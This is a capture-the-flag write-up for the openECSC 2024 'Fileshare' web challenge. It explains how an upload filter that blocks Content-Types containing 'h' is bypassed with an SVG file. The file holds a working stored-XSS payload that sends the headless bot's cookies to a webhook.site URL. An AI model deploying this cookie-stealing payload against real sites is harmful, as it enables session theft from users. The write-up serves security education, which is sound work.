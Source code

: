 # CTF Info

- CTF name: openECSC 2024 - Round 1
- Challenge name: Fileshare
- Category: Web
- Points: 50
# Description

```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```
# Initial thoughts

We are presented a web page, where we see 3 tabs: `Files`, `Upload`, and `Support`. The following picture illustrates the front page by simply accessing `https://fileshare.challs.open.ecsc2024.it/`.

![Fileshare starting page](img/fileshare_startpage.png)

As soon as I read "Upload", I kind of knew in which direction this challenge would go without even having a look at the source code. I was thinking that it would be possible to upload something malicious that would lead me to the flag. 
We have the advantage of having a deeper look into the source code because it comes with the challenge. I always tend to first inspect the `docker-compose.yml` file to find the location of the flag on the server. By doing this, I saw that the flag was stored in the environment variable `FLAG`.

![docker-compose.yml](img/docker-compose.png)

We also see that there are some other weird containers. `Headless`? `RabbitMQ`? `Worker`? What the hell is supposed to be that?

> **Note**: The `headless` servers are not exposed to the public. So it is not possible to reach this server without having access to that network.

Let's take an even closer look at the PHP code. First, let's start by finding out if and where the environment variable `FLAG` gets called. After clicking through the PHP files, I found an interesting function in `support.php`:

![support.php](img/support_php_code.png)

Let's give this function a little rundown: If there is a `POST` request on `https://fileshare.challs.open.ecsc2024.it/support.php`, where the parameters `email`, `fileid` and `message` are set and the `fileid` matches a specific pattern, a JSON will be sent to the `HEADLESS_HOST`, which we have seen earlier in the `docker-compose.yml`. But what is in that JSON? Well, I think this goes out of scope, but I did some research on the `headless` Docker image. By searching `https://hub.docker.com` for `cybersecnatlab` I found the `challenge-headless` image. There is a `README`, which gives a pretty good insight about the `request` function we are going to use from the `headless` container.

![Headless request documentation](img/headless_request_doc.png)

Next, there is also a description of the `set-cookie` option.

![Headless set-cookie documentation](img/headless_set-cookie_doc.png)

Okay, so let's summarize this: We are letting the `headless` container do 2 HTTP requests. First, he is simply accessing the site. Next, the container sets a `flag` cookie that contains the flag we need from the environment of the webserver. Next, we are requesting the `download.php` and adding the `id` parameter with the corresponding `fileid`. So, what if we upload a file that contains evil JavaScript code (**XSS**) that makes the `headless` container request a webpage with our flag as an URL parameter or something?
Let's look at the `upload.php` to see the conditions of uploading a file, since it can't be that easy, right? At first this PHP script seems like a usual file upload, but there's a weird check.

```php
$type = $_FILES["file"]["type"];
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){
    $type = "text/plain";
}
```

First, the `Content-Type` of the file gets parsed, and if it contains an `h` it will translate the `Content-Type` to `text-plain`. It's also not possible to circumvent this by inputting an `H`, since the match is case-insensitive. So we can't just upload a `.html` file and input some JavaScript like this:

```html
<script>
	alert(document.cookie)
</script>
```

So we need to find another way...
# The solution

The first resource I always use to research certain hacking topics is **[HackTricks](https://book.hacktricks.xyz/)**. For those of you who don't know: HackTricks is a great collection of hacking tricks that is updated by the community as much as possible.

So, I found a page about [XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) and under `Web Content-Types to XSS` some `Content-Types` are listed that can execute JavaScript in all browsers.

![Web Content-Types that trigger JS](img/hacktricks_js_content-types.png)

I used `svg`, just because ( ͡° ͜ʖ ͡°) (xml would have worked also perfectly fine). Later, we also find some payloads for `XSS` in `svg`. I took a payload and adjusted it to fit my needs.

```xml
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">window.location="https://webhook.site/4a02a680-6499-4ad2-b83e-b429c9f27526?c=".concat(document.cookie)</script>
</svg>
```

What does this do? The `window.location` simply redirects the browser to the URL I specified. Additionally, the `flag` will be inserted as a parameter on the end of the URL with the `document.cookie` function. The URL I used is [Webhook](https://webhook.site), also a great resource to test [Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf) or, like in this case, `XSS`. We can set up a unique URL that can be accessed by everyone. If somebody visits that unique URL we will get some information about the person that accessed that URL. The following picture shows an example request, where I requested that unique URL.

![Test request on webhook.site](img/webhook_test_req.png)

Now let's create a file with that content, name it `exploit.svg` and upload it to the site. After that, we can see under `/files.php` that the file was successfully uploaded.

![Successfully uploaded exploit.svg](img/uploaded_exploit.png)

Great. Now, we only need to send a support ticket. But wait, we discovered earlier that we need the `fileid`. By right-clicking `exploit.svg` and then clicking on inspect, we see the `fileid`. I recognized it by the `id` tag.

![Parsing the fileid from the websource](img/parsing_file_id.png)

Let's copy that and head back to the support page. We can basically insert anything into the `Email` and `Message` field; the only important thing is the correct file ID, under which the `headless` container will later know which file he has to access (in this case, our `exploit.svg`).

After submitting that, it can be observed that a request was made to our unique URL and that the flag was added as a parameter to the URL.

![Viewing the flag on webhook.site](img/viewing_flag_in_webhook.png)

# Lessons learned

- Just because `html` is not possible to upload, doesn't necessarily mean that it is not possible to execute JavaScript code in a browser.
- `svg` files are also able to execute JavaScript code in a browser through XML.
# Conclusion

In conclusion, navigating the `Fileshare` challenge within the openECSC 2024 CTF provided valuable insights into basic web exploitation techniques. From the onset, scrutinizing the web page interface hinted at potential vulnerabilities surrounding file uploads. By delving into the provided source code and leveraging insights from resources like HackTricks, we strategically identified the flag's location within the environment variable `FLAG` and orchestrated an effective exploit utilizing cross-site scripting (XSS) techniques.
The successful execution of the exploit, facilitated by crafting an `exploit.svg` file and manipulating support ticket submissions, underscored the importance of meticulous reconnaissance and creativity in cybersecurity challenges. This experience not only showcased technical proficiency but also highlighted the significance of community resources and innovative thinking in navigating intricate cybersecurity scenarios.